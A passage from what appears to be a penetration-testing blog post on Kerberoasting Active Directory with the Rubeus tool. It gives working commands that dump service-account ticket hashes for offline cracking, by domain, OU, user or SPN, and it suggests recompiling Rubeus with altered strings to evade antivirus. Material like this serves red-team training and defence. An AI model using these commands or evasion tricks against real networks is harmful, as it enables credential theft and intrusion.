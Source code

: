 Now we are armed with target accounts let's boot up `Rubeus`



**Exploit**



To get Rubeus you will actually need `Visual Studio 2017` or anything that can compile `.NET`. In my case I use Visual Studio and build myself an assembly. Luckily at the moment the default build of Rubeus is only detected by one AV vendor on Virus Total however if your AV is flagging it just change some strings and comments and rebuild the project and your AV will shut up.  That's the beauty of open-source C# / .NET Projects, much easier to circumvent anti-virus solutions.



Armed with out assembly/exe we can simply drop it on the target **Domain-Joined Machine** in the context of a domain user and start Roasting. 



Rubeus Github has an amazing explanation on all it's features and it's ability to target specific `OU's` `Users` etc etc so I will try not to copy it word-for-word but merely show it's capabilities. 



First we can try to Roast all Users in the Current Domain (May be Noise)

```powershell
PS C:\Users\m0chan\Desktop > .\Rubeus kerberoast
```



Kerberoast All Users in a Specific OU (Good if Organization has all Service Accounts in a Specific OU)

```powershell
PS C:\Users\m0chan\Desktop > .\Rubeus kerberoast /ou:OU=SerivceAcc,DC=m0chanAD,DC=local
```



This may generate a lot of Output so we can Output all the Hashes to a file for easier Management and Cracking.

```
/outfile:C:\Temp\TotallyNotHashes.txt
```



Roasting a Specific Users or SPN 

```powershell
PS C:\Users\m0chan\Desktop > .\Rubeus kerberoast /user:mssqlservice

PS C:\Users\m0chan\Desktop > .\Rubeus kerberoast /spn:MSSQLSvc/SQL.m0chanAD.local
```



There is also the ability to Roast users in a foreign trust domain providing the trust relationships allow you but you can check out the Rubeus Repo for full explanation on that. It's really cool. 



#### [](#header-4)Invoke-Kerberoast.ps1
